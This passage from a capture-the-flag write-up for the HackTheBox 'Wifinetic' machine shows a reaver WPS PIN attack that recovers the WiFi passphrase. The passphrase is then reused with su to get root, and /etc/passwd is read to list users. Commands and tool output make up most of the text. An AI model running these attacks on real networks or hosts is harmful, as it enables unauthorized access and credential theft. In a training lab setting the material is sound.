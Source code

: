 ```bash
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: Unknown: 3B025100
                    IE: Unknown: 7F080400400200000040
                    IE: Unknown: DD5C0050F204104A0001101044000102103B00010310470010362DB47BA53A519188FB5458B986B2E41021000120102300012010240001201042000120105400080000000000000000101100012010080002210C1049000600372A000120

eth0      Interface doesn't support scanning.

hwsim0    Interface doesn't support scanning.

wlan0     No scan results
```

We can see the BSSID number on the `wlan1` interface with the value of `02:00:00:00:00:00`. We are now ready to attack WPS with `reaver`:

```bash
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
```

We managed to recover the WiFi passphrase (`WPA PSK`). Let's quickly check if this is also the password for `root`:

```bash
netadmin@wifinetic:~$ su -
Password:
root@wifinetic:~# cat /root/root.txt
<SNIP>
```

![](machine_pwned.png){: width="65%" .normal}

## Extra

> IppSec's [HackTheBox - Wifinetic](https://youtu.be/jj4r5lwnCp8?t=938).

Check target machine's users:

```bash
# filter the lines that end in 'sh'
netadmin@wifinetic:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
netadmin:x:1000:1000::/home/netadmin:/bin/bash
sjohnson88:x:1001:1001:Network Engineer:/home/sjohnson88:/bin/bash
janderson42:x:1002:1002:Wireless Solutions Specialist:/home/janderson42:/bin/bash
eroberts25:x:1003:1003:Network Operations Manager:/home/eroberts25:/bin/bash
mhughes12:x:1004:1004:WiFi Security Analyst:/home/mhughes12:/bin/bash
jletap77:x:1005:1005:Customer Support Technician:/home/jletap77:/bin/bash
bwhite3:x:1006:1006:Network Architect:/home/bwhite3:/bin/bash
lturner56:x:1007:1007:WiFi Marketing Manager:/home/lturner56:/bin/bash
tcarter90:x:1008:1008:Technical Support Specialist:/home/tcarter90:/bin/bash
owalker17:x:1009:1009:Wireless Network Administrator:/home/owalker17:/bin/bash
dmorgan99:x:1010:1010:WiFi Project Coordinator:/home/dmorgan99:/bin/bash
```
